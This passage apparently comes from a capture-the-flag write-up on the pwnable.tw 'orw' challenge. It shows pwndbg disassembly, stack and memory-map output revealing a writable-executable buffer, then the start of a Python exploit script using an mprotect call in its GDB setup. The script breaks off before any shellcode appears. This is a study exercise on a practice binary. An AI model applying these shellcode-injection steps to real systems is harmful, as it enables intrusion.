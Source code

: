 ```sh
   0x804856e <main+38>    sub    esp, 4
   0x8048571 <main+41>    push   0xc8
   0x8048576 <main+46>    push   shellcode
   0x804857b <main+51>    push   0
   0x804857d <main+53>    call   read@plt                    <read@plt>
──────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp 0xff8ec6d0 ◂— 1
01:0004│-004 0xff8ec6d4 —▸ 0xff8ec6f0 ◂— 1
02:0008│ ebp 0xff8ec6d8 —▸ 0xf7f2d020 (_rtld_global) —▸ 0xf7f2da40 ◂— 0
03:000c│+004 0xff8ec6dc —▸ 0xf7ccc519 (__libc_start_call_main+121) ◂— add esp, 0x10
04:0010│+008 0xff8ec6e0 —▸ 0xff8edfff ◂— '/home/alter/lab/pwnable.tw/orw/orw'
05:0014│+00c 0xff8ec6e4 ◂— 0x70 /* 'p' */
06:0018│+010 0xff8ec6e8 —▸ 0xf7f2d000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x36f2c
07:001c│+014 0xff8ec6ec —▸ 0xf7ccc519 (__libc_start_call_main+121) ◂— add esp, 0x10
────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────
 ► 0 0x8048559 main+17
   1 0xf7ccc519 __libc_start_call_main+121
   2 0xf7ccc5f3 __libc_start_main+147
   3 0x80483f1 _start+33
──────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size Offset File
 0x8048000  0x8049000 r-xp     1000      0 /home/alter/lab/pwnable.tw/orw/orw
 0x8049000  0x804a000 r--p     1000      0 /home/alter/lab/pwnable.tw/orw/orw
 0x804a000  0x804b000 rwxp     1000   1000 /home/alter/lab/pwnable.tw/orw/orw
0xf7cab000 0xf7ccb000 r--p    20000      0 /usr/lib/i386-linux-gnu/libc.so.6
0xf7ccb000 0xf7e4d000 r-xp   182000  20000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7e4d000 0xf7ed2000 r--p    85000 1a2000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7ed2000 0xf7ed3000 ---p     1000 227000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7ed3000 0xf7ed5000 r--p     2000 227000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7ed5000 0xf7ed6000 rw-p     1000 229000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7ed6000 0xf7ee0000 rw-p     a000      0 [anon_f7ed6]
0xf7eee000 0xf7ef0000 rw-p     2000      0 [anon_f7eee]
0xf7ef0000 0xf7ef4000 r--p     4000      0 [vvar]
0xf7ef4000 0xf7ef6000 r-xp     2000      0 [vdso]
0xf7ef6000 0xf7ef7000 r--p     1000      0 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7ef7000 0xf7f1c000 r-xp    25000   1000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7f1c000 0xf7f2b000 r--p     f000  26000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7f2b000 0xf7f2d000 r--p     2000  34000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7f2d000 0xf7f2e000 rw-p     1000  36000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xff8cd000 0xff8ef000 rwxp    22000      0 [stack]
```

- Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./orw', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*main+14
        call (int)mprotect(0x804a000, 0x1000, 7)
        c
```